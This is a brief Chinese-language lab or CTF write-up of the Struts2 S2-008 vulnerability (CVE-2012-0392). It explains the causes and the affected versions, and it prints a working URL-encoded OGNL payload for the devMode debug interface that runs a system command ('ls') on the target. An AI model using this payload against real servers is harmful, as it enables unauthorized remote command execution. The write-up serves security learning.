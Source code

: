 # Struts2-008（CVE-2012-0392）

## 漏洞概述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

## 漏洞成因：

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行
第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是java的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋
第三种需要开启 devModedebug 模式

例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

影响版本：Struts 2.1.0 - Struts 2.3.1

启动靶场。

![1](./1.png)

利用 POC 拿到 Flag

`/devmode.action?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%29`

![2](./2.png)